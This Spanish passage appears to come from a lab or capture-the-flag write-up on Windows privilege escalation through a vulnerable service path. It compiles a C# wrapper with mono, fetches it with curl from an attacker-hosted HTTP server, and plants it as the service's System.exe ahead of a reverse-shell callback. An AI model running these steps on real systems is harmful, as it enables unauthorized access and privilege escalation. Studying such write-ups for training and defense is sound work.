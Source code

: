 Para poder compilar un archivo para windows en linux necesitaremos instalar `mono-devel`.

Una vez instalado `mono-devel` podemos compilar nuestro archivo `Wrapper.cs` y observaremos que nos crea un nuevo archivo ejecutable para windows `(Wrapper.exe)`. 

```php
sudo apt install mono-devel
mcs Wrapper.cs
file Wrapper.exe
```

**Subir el archivo `Wrapper.cs`**

```python
[*] En nuestra máquina local de atacante:

python -m SimpleHTTPServer 9090

[*] En la máquina victia actual:

curl http://10.50.195.140:9090/Wrapper.exe -o Wrapper.exe
```

Una vez con el archivo `Wrapper.exe` debemos ubicarlo en la ruta vulnerable del servicio **en este caso** como `System.exe`.

```python
C:\xampp\htdocs\resources\uploads\Wrapper.exe "C:\Program Files (x86)\System Explorer\System.exe"
```

Para poder cerciorarnos que nuestro archivo se encuentra donde lo ubicamos podemos ejecutar lo siguiente.

```python
dir "C:\Program Files (x86)\System Explorer\"
```

![Copy wrapper.exe](/assets/images/report/wraperexe.png)

Antes de reiniciar el servicio vulnerable deberemos estar en escucha por el mismo puerto que indicamos en nuestro archivo `Wrapper.cs` antes de compilarlo.
